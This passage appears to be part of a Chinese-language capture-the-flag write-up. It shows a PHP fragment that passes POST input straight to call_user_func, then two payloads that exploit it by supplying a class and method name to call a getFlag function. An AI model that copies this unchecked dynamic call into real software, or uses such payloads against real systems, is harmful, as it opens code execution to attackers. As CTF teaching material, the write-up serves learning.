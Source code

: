 ```php
    }
}



call_user_func($_POST['ctfshow']);
```

![image-20250124162118373](assets/image-20250124162118373.png)

我们需要通过post传入一个数组，数组中包含类名和方法名

payload

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
```

又或者

```
ctfshow=ctfshow::getFlag
```

